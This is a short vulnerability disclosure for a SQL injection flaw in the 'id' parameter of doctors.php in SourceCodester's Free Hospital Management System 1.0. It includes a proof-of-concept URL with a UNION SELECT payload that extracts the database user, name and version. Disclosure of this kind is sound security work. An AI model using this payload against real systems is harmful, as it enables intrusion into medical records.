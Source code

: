 # SourceCodester Free Hospital Management System for Small Practices 1.0 has a SQL Injection vulnerability in /vm/doctor/doctors.php
## Software
- Software: Free Hospital Management System for Small Practices 1.0
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description
SourceCodester Free Hospital Management System for Small Practices 1.0 has a SQL Injection vulnerability in /vm/doctor/doctors.php. Affected is an unknown function of the file `/vm/doctor/doctors.php?action=view&id=2`,The manipulation of the argument `id` leads to SQL inject.

## Vulnerability Code
- /vm/doctor/doctors.php

![Vulnerability-Code](https://github.com/Yesec/Free-Hospital-Management-System-for-Small-Practices/assets/19534204/9f6b88c2-490d-4426-afc4-99a5a2600f89)

## POC

```
http://localhost/vm/doctor/doctors.php?action=view&id=0' union select 1,current_user(),database(),4,version(),6,7--+
```
![Exploit](https://github.com/Yesec/Free-Hospital-Management-System-for-Small-Practices/assets/19534204/899c3b20-4f75-4f0a-af57-c1097ada5f7f)
